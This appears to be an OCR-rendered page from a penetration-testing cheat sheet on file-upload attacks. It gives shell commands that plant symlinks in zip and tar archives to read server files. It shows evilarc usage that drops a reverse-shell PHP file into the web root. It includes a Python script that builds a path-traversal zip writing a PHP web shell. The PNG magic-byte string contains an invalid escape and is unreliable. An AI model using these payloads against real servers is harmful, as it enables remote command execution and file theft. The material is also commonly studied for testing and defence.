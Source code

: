 ## Magic Header Bytes

* **PNG**: `"\x89PNG\r\n\x1a\n\0\0\0\rIHDR\0\0\x03H\0\xs0\x03["`
* **JPG**: `"\xff\xd8\xff"`

Refer to [https://en.wikipedia.org/wiki/List\_of\_file\_signatures](https://en.wikipedia.org/wiki/List\_of\_file\_signatures) for other filetypes.

### Zip/Tar File Automatically decompressed Upload

If you can upload a ZIP that is going to be decompressed inside the server, you can do 2 things:

#### Symlink

Upload a link containing soft links to other files, then, accessing the decompressed files you will access the linked files:

```
ln -s ../../../index.php symindex.txt
zip --symlinks test.zip symindex.txt
tar -cvf test.tar symindex.txt
```

### Decompress in different folders

The unexpected creation of files in directories during decompression is a significant issue. Despite initial assumptions that this setup might guard against OS-level command execution through malicious file uploads, the hierarchical compression support and directory traversal capabilities of the ZIP archive format can be exploited. This allows attackers to bypass restrictions and escape secure upload directories by manipulating the decompression functionality of the targeted application.

An automated exploit to craft such files is available at [**evilarc on GitHub**](https://github.com/ptoomey3/evilarc). The utility can be used as shown:

```python
# Listing available options
python2 evilarc.py -h
# Creating a malicious archive
python2 evilarc.py -o unix -d 5 -p /var/www/html/ rev.php
```

Additionally, the **symlink trick with evilarc** is an option. If the objective is to target a file like `/flag.txt`, a symlink to that file should be created in your system. This ensures that evilarc does not encounter errors during its operation.

Below is an example of Python code used to create a malicious zip file:

```python
#!/usr/bin/python
import zipfile
from io import BytesIO

def create_zip():
    f = BytesIO()
    z = zipfile.ZipFile(f, 'w', zipfile.ZIP_DEFLATED)
    z.writestr('../../../../../var/www/html/webserver/shell.php', '<?php echo system($_REQUEST["cmd"]); ?>')
    z.writestr('otherfile.xml', 'Content of the file')
    z.close()
    zip = open('poc.zip','wb')
    zip.write(f.getvalue())
    zip.close() 

create_zip()
```
